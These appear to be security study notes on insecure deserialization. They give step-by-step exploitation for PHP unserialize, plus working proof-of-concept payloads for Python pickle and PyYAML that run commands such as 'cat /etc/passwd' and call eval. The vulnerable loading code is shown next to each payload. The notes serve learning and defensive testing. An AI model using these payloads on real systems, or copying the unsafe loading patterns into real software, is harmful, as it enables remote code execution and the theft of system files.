 ## Deserialization

The decoding and transformation of user supplied data into language objects can result in remote code execution.

## PHP

[ref](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure Deserialization/PHP.md)

1. Look at code

2. Identify functions that do something malicious based on user input. Like:

   ```php
   class Foo{
       private $cmd = "ls";
       function __toString() {
           return system($this->cmd);
       }
   }
   ```

3. Find out where they are executed

   ```php
   $x = unserialize($_GET["data"]);
   echo $x;
   ```

4. Write class that sets parameters to what you want. Methods cannot be overridden.

   ```php
   class Foo{
       private $cmd = "cat /etc/passwd";
   }
   ```

5. Instantiate and serialize class

   ```php
   $f = new Foo();
   echo serialize($f);
   ```

**Things to note**:

- You cannot override methods
- You do not need to deserialize to a class that is correct, any class will do as long as it is loaded by the compiler



## Python pickle

[pickle — Python object serialization — Python 3.9.4 documentation](https://docs.python.org/3/library/pickle.html)

**Vulnerable code**:

```python
# Attacker's code
import os
import pickle

class Exploit:
    def __reduce__(self):
        # os doesn't need to be imported on the victim
        return os.system, ("cat /etc/passwd",)
    
pic = pickle.dumps(Exploit())

# Victim's code
data = pickle.loads(pic)
```

**Notes**:

- Python version must match
- All python versions are vulnerable



## YAML deserialization

[ref](https://github.com/yaml/pyyaml/issues/420)

**Payload**:

```yaml
!!python/object/new:tuple 
- !!python/object/new:map 
  - !!python/name:eval
  - [ "print(__import__('os').system('ls'))" ]
```

**Vulnerable code:**

```python
import yaml
yaml.load(payload)
```



